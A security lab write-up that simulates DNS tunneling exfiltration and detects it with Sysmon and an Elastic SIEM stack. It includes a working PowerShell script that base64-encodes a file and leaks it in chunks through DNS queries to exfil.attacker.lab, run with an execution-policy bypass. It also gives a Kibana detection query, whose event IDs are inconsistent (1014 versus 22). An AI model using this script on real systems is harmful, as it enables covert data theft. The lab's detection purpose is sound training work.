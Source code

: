 
# 🛡️ Task 4 – DNS Tunneling: Data Exfiltration via Encoded DNS Subdomain Queries

## 🎯 Objective

Simulate a **DNS tunneling attack** from the victim (Windows) machine to the attacker (Kali) machine. The goal is to exfiltrate encoded data through DNS queries and detect this activity using **Sysmon**, **Winlogbeat**, **Elasticsearch**, **Kibana**, and **ElastAlert**.

---

## 🧪 Lab Setup

| Component          | Machine              |
|-------------------|----------------------|
| Attacker          | Kali Linux           |
| Victim            | Windows 10 Home      |
| Monitoring Tools  | Sysmon, Winlogbeat   |
| SIEM Stack        | Elasticsearch, Kibana, ElastAlert |
| Network Mode      | Bridged              |

---

## ⚙️ Phase 1 – Setup Fake DNS Server on Kali

Install and run `dnschef` to act as a DNS server and capture queries.

```bash
sudo apt update
sudo apt install dnschef -y
sudo dnschef --fakeip 192.168.x.x --interface 192.168.x.x
```

📝 Replace `192.168.x.x` with Kali's IP address.

---

## ⚙️ Phase 2 – Create and Run PowerShell Script on Victim

### 1. Create File to Exfiltrate
```powershell
New-Item -Path "C:\Temp\secret.txt" -ItemType File -Value "This is some secret data to test DNS tunneling"
```

### 2. PowerShell Script (`dns-tunnel.ps1`)

```powershell
$filePath = "C:\Temp\secret.txt"

if (Test-Path $filePath) {
    $data = Get-Content $filePath -Raw
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($data)
    $encoded = [Convert]::ToBase64String($bytes)

    $chunks = ($encoded -split '(.{1,50})' | Where-Object { $_ -and $_ -ne "" })

    foreach ($chunk in $chunks) {
        $domain = "$chunk.exfil.attacker.lab"
        Write-Output "Querying: $domain"
        nslookup $domain 192.168.x.x
        Start-Sleep -Milliseconds 500
    }
} else {
    Write-Output "File not found: $filePath"
}
```

### 3. Run the Script
```powershell
powershell -ExecutionPolicy Bypass -File C:\Temp\dns-tunnel.ps1
```

---

## 🔍 Phase 3 – Monitor with Kibana

Use the following query in Kibana **Discover** tab:

```kql
event.code: "1014" and dns.question.name: *.attacker.lab
```

### 🧠 What to Look For
- `dns.question.name` showing base64-encoded subdomains
- `process.name`: `powershell.exe`
- `event.code`: `1014` (Sysmon DNS Query)

---

## 🔔 Sample Log

![alt text](<sample log.png>)

---


## ✅ Outcome

- DNS queries containing encoded data were successfully sent to the attacker.
- Sysmon logged Event ID 22 with base64-encoded DNS requests.
- Logs were ingested into Elasticsearch via Winlogbeat.
- Kibana visualized suspicious DNS activity.
- ElastAlert rule generated alert on frequent base64 DNS queries.

---

## 📚 References

- MITRE ATT&CK T1071.004 – Application Layer Protocol: DNS
- Sysmon Event ID 1014 – DNS Query
- https://github.com/iphelix/dnschef
